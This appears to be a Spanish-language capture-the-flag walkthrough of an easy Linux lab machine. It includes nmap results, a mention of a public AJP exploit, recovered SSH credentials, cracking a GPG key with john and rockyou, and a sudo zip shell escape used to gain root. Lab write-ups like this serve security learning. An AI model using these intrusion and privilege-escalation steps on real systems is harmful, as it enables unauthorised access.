 #Linux #Easy 
### nmap
```python
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.25 seconds
```

### El puerto 8009 tiene un apache (protocol v1.3) esto se ve muy vulnerable asi que buscaremos exploit en internet. 
conseguimos uno en python vamos a probarlo.
![[Pasted image 20240612151025.png]]

![[Pasted image 20240612151028.png]]

### Username
```python
	skyfuck:8730281lkjlkjdqlksalks
```
### intentamos entrar en el puerto ssh con las credenciales que hemos conseguido
![[Pasted image 20240612151034.png]]

### tenemos dos archivos interesantes asi que los enviaremos a nuestra maquina. usando netcat.
maquina atacante
![[Pasted image 20240612151038.png]]
maquina victima
![[Pasted image 20240612151041.png]]

### usaremos gpg2john para sacar el hash del archivo y despues lo usaremos para pasarle a john de la siguiente forma
```python
	gpg2john tryhackme > hash.txt

	luego usaremos has para pasarlo a john

	john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![[Pasted image 20240612151049.png]]
### usando la herramienta pgp vamos a desencrictar los hahs 
```python
	pgp --import tryhachme.asc
	pgp --decrypt credential.pgp
```
usaremos las credenciales de alexandru
![[Pasted image 20240612151058.png]]

### obtenemos otro usuario llamado merlin con lo que parece su clave.
veremos si tenemos permisos sudos con sudo -l
![[Pasted image 20240612151103.png]]
### podemos hacer todo sobre el archivo zip. asi que aprovecharemos esto para escalar provilegios
```python
	sudo zip $TF /etc/hosts -T -TT 'sh #'
	sudo rm $TF
```
cambiaremos el "zip" por la ruta absoluta donde esta nuestro zip. en este caso /usr/bin/zip
![[Pasted image 20240612151107.png]]
### WE ARE ROOT